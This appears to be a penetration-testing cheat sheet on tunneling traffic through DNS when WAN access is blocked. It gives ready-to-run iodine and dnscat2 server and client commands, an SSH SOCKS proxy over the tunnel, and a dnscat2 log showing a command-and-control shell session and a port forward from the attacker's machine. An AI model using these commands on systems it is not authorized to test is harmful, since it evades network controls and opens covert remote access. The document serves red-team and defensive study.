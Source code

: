 ## Establishing DNS tunnels

If any WAN traffic is blocked but external host names are resolved then there’s a possibility of tunneling traffic via DNS queries. 
You need a domain registered for this technique to work. 

- http://dev.kryo.se/iodine/wiki/HowtoSetup might help you with setting up your name server.


## Tunneling using Iodine

If so happens that you got root access on the server you can try http://code.kryo.se/iodine/

It works almost like hans ICMP tunneling tool - it creates a pair of tun adapters and tunnels data between them as DNS queries. 
Successful connection will yield direct client visibility at address 1.1.1.2. 

Running on the server side:

```bash
iodined -f -c -P hacker@hacker.com 1.1.1.1 tunneldomain.com
```

Running on the client side:

```bash
iodine -f -P hacker@hacker.com tunneldomain.com -r
```

Using a compressed ssh connection over the resulting connection:

```bash
ssh <user>@1.1.1.2 -C -c blowfish-cbc,arcfour -o CompressionLevel=9 -D 1080
```

## Tunneling using dnscat2

- https://github.com/iagox86/dnscat2 establishes C&C channel over recursive DNS queries. 

This tool doesn't require root/administrator access (works both on Windows and linux). 
It also supports port forwarding. 

Running on the server side:

```bash
ruby ./dnscat2.rb tunneldomain.com
```

Running on the client side:

```bash
./dnscat2 tunneldomain.com
```

Viewing active sessions:
```bash
dnscat2> windows
     0 :: main [active]
      dns1 :: DNS Driver running on 0.0.0.0:53 domains = tunneldomain.com [*]
      1 :: command session (debian)
      2 :: sh (debian) [*] 
1.1.2.4 Forwarding ports
This will bind port 8080 on the attacker’s machine and forward all connections to 10.0.0.20:80.
    dnscat2> session -i 1
    New window created: 1
    New window created: 1
    history_size (session) => 1000

   command session (debian) 1> listen 127.0.0.1:8080 10.0.0.20:80
```
